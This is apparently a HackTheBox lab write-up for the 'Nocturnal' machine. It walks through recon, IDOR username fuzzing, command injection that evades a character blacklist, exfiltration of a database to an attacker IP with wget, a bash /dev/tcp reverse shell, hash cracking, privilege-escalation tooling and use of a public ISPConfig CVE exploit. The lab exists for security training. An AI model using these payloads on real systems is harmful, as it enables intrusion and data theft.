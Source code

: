 # Nocturnal

Start with **Nmap** to identify open ports and services:
```sh
nmap -p- -T4 10.10.11.64
nmap -sV -sC -p 22,80 10.10.11.64
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
nikto -h http://nocturnal.htb
gobuster dir -u http://nocturnal.htb -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```

We can register on the website and reach dashboard.php which allows file uploads.  
File upload restrictions:
```
Invalid file type." PDF, doc, docx, xls, xlsx, and odt are allowed
```

IDOR / Fuzzing: Fuzz usernames to find valid accounts:
```sh
http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
ffuf -u "http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf" -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -b "PHPSESSID=erbpv8q9e6n8p65j7dk8lsgpde" -fr "User not found"
```

Found Amanda user and downloaded her files → found password:
```
arHkG7HAI68X8s1J
```

Use the password to access the admin panel.  
Test injection payloads with Burp Suite:
```sh
password=1%0awhoami>text.txt%0a&backup=
# Discovered the nocturnal_database.db file
password=''>/dev/null%0als%09/var/www/nocturnal_database&backup=
```

Admin.php sanitization function:
```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
...
```

After some search we find nocturnal_database.db:
```sh
password=''>/dev/null%0awget%09-X%09POST%09http://10.10.14.124:8000/upload%09-F%09'files=@/var/www/nocturnal_database/nocturnal_database.db'#&backup=

# or we can echo "bash -c 'bash -i >& /dev/tcp/10.10.14.124/4444 0>&1'" > shell
# password=test%0acurl%09http://10.10.14.124/shell%09-o%09/tmp/shell&backup=
# password=test%0abash%09/tmp/shell&backup=
```



Extracted hashes from the database:
```sh
sqlite3 nocturnal_database.db
.tables
select * from users;
echo -n "tobias:55c82b1ccd55ab219b3b109b07d5061d" > hash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# slowmotionapocalypse
```


SSH into the machine with tobias:
```sh
id
whoami
groups
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
python3 -m http.server 8000
curl http://10.10.14.116:8000/linpeas.sh -o linpeas.sh
```

Found service running on port 8080:
```sh
ss -tulpn
```

Tunneling via SSH to access ISPConfig:
```sh
ssh -L 8080:127.0.0.1:8080 tobias@nocturnal.htb
http://localhost:8080/
```

Discovered version: ISPConfig 3.2.10p1  
Found CVE-2023-46818 and exploited:
```sh
https://github.com/ajdumanhug/CVE-2023-46818
tobias@nocturnal:~$ python3 script.py http://localhost:8080 admin slowmotionapocalypse
```